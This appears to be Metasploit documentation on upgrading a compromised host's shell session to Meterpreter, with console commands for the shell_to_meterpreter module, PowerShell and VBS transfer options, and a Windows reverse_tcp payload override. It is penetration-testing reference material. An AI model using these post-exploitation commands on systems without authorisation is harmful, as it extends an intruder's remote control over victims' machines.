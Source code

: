 ## Upgrading shells to Meterpreter
If you have an existing session, either Meterpreter, an SSH, or a basic command shell - you can open a new Meterpreter session with:
```
sessions -u 3
```

To upgrade the most recently opened session to Meterpreter using the `sessions` command:
```
sessions -u -1
```

Or run the `shell_to_meterpreter` module manually:
```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```

If you want to upgrade your shell with fine control over what payload, use the `PAYLOAD_OVERRIDE`, `PLATFORM_OVERRIDE`, and on windows, `PSH_ARCH_OVERRIDE`. All 3 options are required to set an override on windows, and the first two options are required on other platforms, unless you are not using an override.
```
use multi/manage/shell_to_meterpreter
set SESSION 1
set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
set PLATFORM_OVERRIDE windows
set PSH_ARCH_OVERRIDE x64
```

